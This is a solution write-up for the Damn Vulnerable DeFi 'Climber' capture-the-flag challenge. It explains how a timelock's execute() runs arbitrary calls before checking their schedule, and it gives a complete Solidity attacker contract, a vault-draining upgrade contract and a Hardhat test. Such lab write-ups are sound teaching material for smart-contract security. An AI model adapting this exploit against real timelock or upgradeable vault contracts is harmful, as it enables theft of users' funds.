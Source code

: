 # #12 Climber Damn Vulnerable Defi

## Goals

=> There’s a secure vault contract guarding 10 million DVT tokens. The vault is upgradeable, following the [UUPS pattern](https://eips.ethereum.org/EIPS/eip-1822).

=> The owner of the vault, currently a timelock contract, can withdraw a very limited amount of tokens every 15 days.

=> On the vault there’s an additional role with powers to sweep all tokens in case of an emergency.

=> On the timelock, only an account with a “Proposer” role can schedule actions that can be executed 1 hour later.

=> To pass this challenge, take all tokens from the vault.

### Hints

- None

### Solution

- There is a bad practice of checking conditions after an external call in the `execute()` function which is callable by anyone, with arbitrary addresses, values and data which allows us to do any external call to any address we want with any function selector we want + there is no access control on that function which gives us a point of reentrancy
- The `ClimberTimelock` contract also is an `admin` and admins can call the `grantRole()`, `transferOwnership()` and `updateDelay()` functions
- So we now can call the `execute()` function which will get `dataElements` that includes the `abi.encodeWithSignature()` of the `transferOwnership()` function and makes our attacker the owner, on the second iteration we will send the `abi.encodeWithSignature()` of the `grantRole()` function with the needed parameters which grants our attacker the role `proposer`, on the third iteration we will send the `abi.encodeWithSignature()` of the `updateDelay()` function with 0 as parameter to reduce the time that needs to pass between `schedule()` & `execute()`, on the last iteration we now can schedule the operation with the input parameters we sent with the `execute()` function, which will then allow us to pass the `if (getOperationState(id) != OperationState.ReadyForExecution)` check
- Now we are the `owner` and therefore we can upgrade the contract and implement whatever logic we want on that new contract, in this case we want to withdraw all tokens

### Attacker Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./ClimberTimelock.sol";
import "./ClimberVault.sol";

contract Attacker {
    address payable private immutable timelock;

    uint256[] private _values = [0, 0, 0, 0];
    address[] private _targets = new address[](4);
    bytes[] private _elements = new bytes[](4);

    constructor(address payable _timelock, address _vault) {
        timelock = _timelock;
        _targets = [_timelock, _vault, _timelock, address(this)];

        _elements[0] = abi.encodeWithSignature(
            "grantRole(bytes32,address)",
            keccak256("PROPOSER_ROLE"),
            address(this)
        );
        _elements[1] = abi.encodeWithSignature(
            "transferOwnership(address)",
            msg.sender
        );
        _elements[2] = abi.encodeWithSignature("updateDelay(uint64)", 0);
        _elements[3] = abi.encodeWithSignature("schedule()");
    }

    function attack() external {
        ClimberTimelock(timelock).execute(
            _targets,
            _values,
            _elements,
            bytes32("SALTY")
        );
    }

    function schedule() external {
        ClimberTimelock(timelock).schedule(
            _targets,
            _values,
            _elements,
            bytes32("SALTY")
        );
    }
}

contract Stealer is ClimberVault {
    function steal(address target) external {
        IERC20 token = IERC20(target);
        bool success = token.transfer(
            msg.sender,
            token.balanceOf(address(this))
        );
        require(success, "hack failed");
    }
}

```

### Test

```javascript
it('Execution', async function () {
	const attackerContract = await (
		await ethers.getContractFactory('Attacker', player)
	).deploy(timelock.address, vault.address);

	// Call attack function on attackerContract with the player
	await attackerContract.connect(player).attack();

	// Update Vault logic to Stealer contracts logic
	const Stealer = await ethers.getContractFactory('Stealer', player);
	const stealer = await upgrades.upgradeProxy(vault.address, Stealer);

	// Sweep the funds of the new VaultV2 contract
	await stealer.connect(player).steal(token.address);
});
```
